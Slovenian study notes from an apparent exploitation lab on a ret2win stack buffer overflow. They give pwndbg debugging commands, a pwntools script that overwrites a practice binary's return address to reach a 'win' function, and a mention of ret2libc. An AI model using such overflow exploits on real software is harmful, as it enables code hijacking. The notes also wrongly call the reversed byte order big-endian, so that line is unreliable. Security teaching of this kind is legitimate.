 - če povozimo return address lahko naredimo, da main kliče samega sebe (prejšnja vaja)
- za skoke nazaj rabimo return address in kje se je prejšnji stack začel (to je base pointer)
- za skoke rabimo vedeti return address in base pointer

- ret2win - skočiš na "win" function

```
pwndbg main
run // požene program, lahko samo `r`
b main // breakpoint na prvo vrstico main
r
```

- RBP = base pointer
- RSP = stack pointer
- na začetku kažeta na isto zadevo
- RIP = instruction pointer (program counter) - kaže na naslov naslednjega ukaza

```
b* main // se break-a po tem, ko se prvi ukaz zažene, ne pred tem tako kot pri `b`
```

```
ni // next instruction
```

- stack je na dnu pomnilnika, zato je naslov `0x7fffffff...`
- če vpišemo preveč znakov (A):
	- ![200](Images3/Pasted%20image%2020250303134932.png)
	- s tem smo povozili stack, na stacku je shranjeno zaporedje klicov funkcij - ko pridemo do return, bo poskusilo skočiti na `0x4141414141414141` (na naslov na vrhu stacka) (to so v bistvu ASCII 'A')

```
c // continue, da gre naprej do breakpointa, ki ga imamo v main
```

- `x/100gx $rsp` - dobimo memory map
- lahko rabimo alignment na nekaj bytov, zato naš char array ni res 20B, ampak je 32 ali 40 ...

```python
from pwn import *

# p = process('./main')

p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8

# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)

p.sendline(b"A"*20 + b"B"*8 + b"C"*8)

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- ![500](Images3/Pasted%20image%2020250303143510.png)

- da ugotovimo, kje v pomnilniku je `win` funkcija, moramo pogledati disassembly:
	- `disass main`
	- `disass win`

`0x0000000000401156`
`b"\x00\x00\x00\x00\x00\x40\x11\x56"`
- rabimo v bistvu ravno okoli obrniti, ker rabimo big endian (vodila na procesorju so tako postavljena na RAM, da se ravno zarotira)
- `b"\x56\x11\x40\x00\x00\x00\x00\x00"`

- pwntools funkcija `p64` - `p64(0x401156)`

```
from pwn import *

# p = process('./main')
p = gdb.debug("./main", "b * main") # drugi parameter je string stvari, ki jih bomo dali debugggerju, tukaj je to en breakpoint

# p.sendline(b"burek") # b pomeni byte string - vsak character je en byte (kot ASCII), ne moreš imeti UTF8
# b"\x41" = "A"

# s = p.recvline()
# print(s)

# p.sendline(b"A"*70)
p.sendline(b"A"*32 + b"B"*8 + p64(0x401156))

p.interactive() # vklopi interactive način, da se lahko pogovarjam s programom
```

- po koncu main, bo skočilo v `win` funkcijo in izpisalo "You win"
- ret2libc - vemo, kje je puts in kje ima libc `system` - lahko skočimo na `system`
